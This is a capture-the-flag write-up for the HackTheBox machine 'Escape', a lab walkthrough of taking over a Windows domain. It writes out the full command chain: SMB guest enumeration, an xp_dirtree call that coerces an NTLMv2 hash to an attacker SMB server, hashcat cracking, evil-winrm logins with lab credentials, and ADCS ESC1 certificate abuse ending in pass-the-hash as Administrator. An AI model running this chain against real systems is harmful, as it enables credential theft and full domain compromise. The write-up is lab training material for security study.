


# Escape — HackTheBox (write-up)

**Difficulty:** Medium
**Box:** Escape (HackTheBox)
**Author:** dkrxhn
**Date:** 2025-03-04

---

## TL;DR

### Guest SMB access revealed SQL creds in a PDF. MSSQL connection + xp_dirtree coerced an NTLMv2 hash for `sql_svc`, cracked to get WinRM. Found Ryan.Cooper's creds in SQL error logs. ADCS ESC1 (UserAuthentication template) abused for Administrator certificate and pass-the-hash.
---
## Target info

- Host: `10.129.121.20`
- Domain: `sequel.htb` / `dc.sequel.htb`
- Services discovered: `53/tcp (dns)`, `135/tcp (msrpc)`, `139/tcp (netbios)`, `389/tcp (ldap)`, `445/tcp (smb)`, `1433/tcp (mssql)`, `3268/tcp (ldap)`, `5985/tcp (winrm)`
---
## Enumeration

```bash
nmap -sCV -p- 10.129.121.20 -vvv -Pn
```

Nmap showed MSSQL Server 2019, LDAP with domain `sequel.htb`, and a certificate authority `sequel-DC-CA`.

```bash
enum4linux -a -u "guest" -p "" 10.129.121.20
```

- Domain: sequel
- Public share accessible with guest

```bash
smbmap -u 'guest' -p '' -H 10.129.121.20 -r Public
```

Found `SQL Server Procedures.pdf` in the Public share with users and SQL creds.

```bash
smbclient.py sequel/guest:''@10.129.121.20
```

Downloaded files from the share.

---
## Foothold

Connected to MSSQL with creds from the PDF:

```bash
mssqlclient.py sequel.htb/PublicUser:GuestUserCantWrite1@10.129.121.20
```

Used xp_dirtree to coerce an NTLMv2 hash:

```sql
EXEC xp_dirtree '\\10.10.14.172\test', 1, 1
```

Caught the `sql_svc` hash with smbserver:

```bash
smbserver.py test . -smb2support
```

Cracked with hashcat:

```bash
hashcat -m 5600 -a 0 -o cracked.txt --force hash.txt /usr/share/wordlists/rockyou.txt
```

Result: `sql_svc:REGGIE1234ronnie`

MSSQL reconnect still couldn't enable xp_cmdshell, but WinRM worked:

```bash
nxc winrm 10.129.121.20 -u users.txt -p passwords.txt
```

```bash
evil-winrm -i 10.129.121.20 -u 'sql_svc' -p 'REGGIE1234ronnie'
```

---
## Lateral movement

Found creds in SQL error log backup:

`C:\SQLServer\Logs\ERRORLOG.BAK` contained `Ryan.Cooper:NuclearMosquito3`.

```bash
evil-winrm -i 10.129.121.20 -u 'Ryan.Cooper' -p 'NuclearMosquito3'
```

---
## Privesc

ADCS exploitation. Uploaded Certify.exe and found a vulnerable template:

```powershell
./certify.exe find /vulnerable
```



The `UserAuthentication` template had `ENROLLEE_SUPPLIES_SUBJECT` flag and allowed Domain Users to enroll -- ESC1.

Requested a certificate as Administrator:

```powershell
./certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:Administrator
```

Saved the key + cert to `cert.pem`, then converted:

```bash
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

Authenticated with certipy to get Administrator's NTLM hash:

```bash
certipy auth -pfx cert.pfx -dc-ip 10.129.121.20 -username Administrator -domain sequel.htb
```



```bash
evil-winrm -i 10.129.121.20 -u 'Administrator' -H 'a52f78e4c751e5f5e17e1e9f3e58f4ee'
```

---
## Lessons & takeaways

- Always check SMB shares with guest access for sensitive documents
- xp_dirtree in MSSQL is an easy way to coerce NTLMv2 hashes even without xp_cmdshell
- SQL error logs can contain plaintext credentials
- ADCS misconfigurations (ESC1: ENROLLEE_SUPPLIES_SUBJECT + Domain Users enrollment) are a direct path to DA
---
